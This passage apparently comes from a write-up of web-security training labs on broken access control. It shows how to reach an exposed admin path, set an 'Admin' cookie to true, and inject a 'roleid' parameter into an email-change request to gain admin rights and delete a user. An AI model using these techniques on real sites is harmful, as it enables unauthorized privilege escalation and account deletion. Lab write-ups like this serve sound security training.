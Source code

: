     - Access the exposed URL **/admin-b5x8jc**.

    ```plaintext
    https://<lab_url>/admin-b5x8jc
    https://<lab_url>/admin-b5x8jc/delete?username=carlos
    ```

3. #### **User role controlled by request parameter**

    - Login and take note of the URL flow and the parameters sent.

    ```plaintext
    ...
    https://<lab_url>/login         POST    (csrf=...&username=wiener&password=peter)
    https://<lab_url>/my-account    GET     (Cookie: session=...; Admin=false)
    ...
    ```

    - Try to access to **/admin**, the message  
    ***Admin interface only available if logged in as an administrator*** will appear.
    - Send the **/admin GET** request to the **Repeater**.
    - Set the **Admin** cookie to **true** and repeat the request.

    ```plaintext
    https://<lab_url>/admin                             GET     401 Unauthorized    (Cookie: session...; Admin=false)

    https://<lab_url>/admin                             GET     200 OK              (Cookie: session...; Admin=true)
    https://<lab_url>/admin/delete?username=carlos
    ```

4. #### **User role can be modified in user profile**

    - Login and try to access to **/admin**, the message  
    ***Admin interface only available to local users*** will appear.
    - Update your email and take note of the URL flow and the parameters sent  
    (notice that the response leaks the parameter **roleid**).

    ```plaintext
    ...
    https://<lab_url>/my-account/change-email           POST    ({"email":"test@test.com"})
    ...
    ```

    - Send the **/change-mail POST** request to the **Repeater**.
    - Add the **roleid** parameter with the value **2** and repeat the request  
    (notice that in the response, the parameter **roleid** has changed).
    - Try to access to **/admin** again.

    ```plaintext
    https://<lab_url>/admin
    https://<lab_url>/admin/delete?username=carlos
    ```

5. #### **URL-based access control can be circumvented**
